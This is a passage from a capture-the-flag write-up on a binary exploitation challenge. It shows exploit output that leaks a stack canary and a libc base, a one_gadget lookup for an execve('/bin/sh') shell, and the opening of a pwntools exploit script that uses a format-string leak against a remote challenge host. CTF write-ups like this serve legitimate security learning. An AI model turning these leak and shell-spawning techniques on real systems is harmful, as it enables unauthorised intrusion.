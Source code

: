 However, when exploiting it, I always got a segmentation fault on the server:

```
$ python3 exploit.py 
[+] Opening connection to 159.65.81.48 on port 30455: Done
[*] Stack Canary: 0xa9115b9464d11b00
[*] Libc_Start: 0x7fa6a066db97
[*] Libc Base address: 0x7fa6a0643a0d
[*] Switching to interactive mode
Red

You have less than 20 space rocks! Are you sure you want to buy it?
$ id
/home/ctf/run_challenge.sh: line 2:    41 Segmentation fault      ./what_does_the_f_say
[*] Got EOF while reading in interactive
```

We can replace the ROP chain with a `execve("/bin/sh")` argument:

```
$ one_gadget libc6_2.27-3ubuntu1.2_amd64.so 
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL
```

Afterwards, the exploit works:

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Final script:

```python
from pwn import *

p = remote('159.65.81.48', 30455)
#p = process('./what_does_the_f_say')
#gdb.attach(p)
def canary():
	p.recv()
	p.sendline(b"1")
	p.recv()
	p.sendline(b"2")
	p.recv()
	p.sendline(b"%23$p")
	p.recvline()
	p.recvline()
	can = p.recvline().strip()
	can = int(can, 16)
	return can

def libc():
	p.recv()
	p.sendline(b"1")
	p.recv()
	p.sendline(b"2")
```